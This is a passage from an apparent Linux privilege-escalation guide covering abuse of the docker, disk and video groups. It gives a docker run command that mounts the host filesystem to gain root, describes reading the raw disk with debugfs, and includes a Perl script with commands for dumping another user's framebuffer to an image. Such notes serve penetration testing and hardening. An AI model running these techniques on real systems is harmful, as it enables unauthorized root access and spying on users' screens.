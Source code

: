 In much the same vein as lxd, we can utilise the docker group to get full root privileges.

```text
docker run -v /:/mnt/rootfs -i -t chrisfosterelli/rootplease
```

Similarly, we can use the [alpine](https://github.com/gliderlabs/docker-alpine/tree/2127169e2d9dcbb7ae8c7eca599affd2d61b49a7) docker image, if no useable containers are uploaded to the host.

#### disk

The disk group gives the user full access to any block devices contained within `/dev/`. Since `/dev/sda1` will in general be the global file-system, and the disk group will have full read-write privileges to this device:

```text
brw-rw---- 1 root disk 8, 1 Feb  5 13:38 /dev/sda1
```

From this we can use debugfs to enumerate the entire disk with effectively root level privileges. We also have full read-write access to the disk block files, so we can extricate these or write arbitrary data to them. With the disk group, we are effectively root, just in a roundabout way.

#### video

The video group controls access to graphical output devices. The output to screen is stored within the [framebuffer](https://www.kernel.org/doc/Documentation/fb/framebuffer.txt), which can be dumped to disk and converted to an image, using the following [script](https://www.cnx-software.com/2010/07/18/how-to-do-a-framebuffer-screenshot/):

```perl
#!/usr/bin/perl -w

$w = shift || 240;
$h = shift || 320;
$pixels = $w * $h;

open OUT, "|pnmtopng" or die "Can't pipe pnmtopng: $!\n";

printf OUT "P6%d %d\n255\n", $w, $h;

while ((read STDIN, $raw, 2) and $pixels--) {
   $short = unpack('S', $raw);
   print OUT pack("C3",
      ($short & 0xf800) >> 8,
      ($short & 0x7e0) >> 3,
      ($short & 0x1f) << 3);
}

close OUT;
```

We can run the above script in the following manner:

```bash
cp /dev/fb0 /tmp/fb0.raw
width=$(cat /sys/class/graphics/fb0/virtual_size | cut -d, -f1)
height=$(cat /sys/class/graphics/fb0/virtual_size | cut -d, -f2)
./raw2png $width $height < /tmp/fb0.raw > /tmp/fb0.png
```

This isn't directly exploitable, but utilized correctly can allow you to view a user with physical access' session and potentially leak information this way. On modern systems it's a slight pipe dream.

[Alternative Script](ftp://ftp.embeddedarm.com/ts-arm-sbc/ts-7350-linux/samples/bmptoraw.c)

